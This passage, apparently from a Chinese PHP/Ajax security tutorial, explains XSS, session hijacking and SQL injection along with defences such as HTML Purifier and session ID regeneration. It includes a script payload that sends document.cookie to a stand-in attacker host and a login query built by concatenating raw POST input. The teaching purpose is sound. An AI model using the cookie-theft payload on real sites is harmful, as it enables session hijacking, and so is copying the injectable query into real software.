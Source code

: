 我们需要一个安装了开发人员工具的 Web 浏览器。此目的可能的工具包括带有 Firebug 的 Firefox。

## 如何做...

在 Ajax 或非 Ajax 基于 Web 的应用程序中一些常见的安全威胁包括 XSS、SQL 注入和会话劫持。我们将看到它们如何被防止。

1.  **XSS**

XSS 或跨站脚本攻击利用了通过用户输入或某种方式通过 URL 进行网站脚本添加的能力。让我们以允许用户输入其个人简介的流行 Twitter 网站为例。考虑以下输入**Bio**字段：

```php
    <script>alert('XSS');</script>

    ```

如果 Twitter 工程师允许 HTML 执行，或者在显示它们之前没有对条目进行净化，它将提示一个带有文本**XSS**的警报框。在现实世界的情况下，它不会是一个警报框，而可能是恶意活动，比如通过已知 URL 模仿用户输入或窃取用户数据或劫持会话：

```php
    ajaxReq('http://example.com/updateUser.php?passwd=xyz');

    ```

通常，黑客可能无法直接访问`updateUser.php`页面；但是 JavaScript 代码可以完全访问，因为它在当前会话范围内。因此，在这里，我们还必须看看我们的架构：

```php
    document.write('<img src= "http://hacker.example.com/storeHackedData.php?' + document.cookie + '" />';

    ```

有了执行这个恶意代码的能力，黑客可能开始窃取浏览器 cookie。通过 cookie 中的会话 ID，黑客可能劫持用户的会话。

**解决方案：**

XSS 的可能解决方案包括：

+   `strip_tags()`

但是，当我们必须显示 HTML 输入时，这可能不是一个好的解决方案。

+   HTML 净化器库[`htmlpurifier.org/`](http://htmlpurifier.org/)

这个库可以净化 HTML 代码，因此对于 XSS 问题是一个更好的选择。

1.  **会话劫持**

如前所述，黑客可能窃取 cookie 数据，从而获取用户的会话 ID。当黑客通过 cookie 编辑工具设置其浏览器的会话值时，黑客将获得对其他用户会话的访问权限。当服务器或脚本被编程为对所有通信使用相同的会话 ID 时，这种威胁通常很常见。

**解决方案：**

一个可能的快速解决方案是为每个请求生成一个新的会话 ID：

`session_regenerate_id()`

1.  **SQL 注入**

当 SQL 查询根据用户输入来获取一些结果，并且如果用户输入没有得到适当的净化，它就会打开改变 SQL 查询的可能性。例如：

```php
$sql = 'SELECT COUNT(*) FROM users WHERE username=\''.$_POST['username'].'\' AND passwd=\''.$_POST['passwd'].'\'';

```

